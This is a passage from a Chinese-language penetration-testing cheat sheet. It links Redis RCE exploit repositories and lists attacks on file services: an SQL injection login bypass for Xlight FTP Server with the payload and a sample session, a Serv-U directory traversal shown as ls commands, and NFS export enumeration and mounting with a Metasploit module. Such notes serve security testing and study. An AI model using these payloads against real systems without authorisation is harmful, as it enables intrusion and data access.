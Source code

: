 - POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)

---

## 文件服务
### ftp
**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段，远程攻击者可以用“OR ‘1’=’1’ ;#”替换用户名绕过认证登录到服务器。

- 示例
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```

**Serv-U FTP Server 目录遍历漏洞**
- 文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- 示例
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

### nfs
**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- 示例
    ```
    showmount -e xxx.xxx.xxx.xxx
    mount -t nfs xxx.xxx.xxx.xxx:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <ip>
    run
    ```
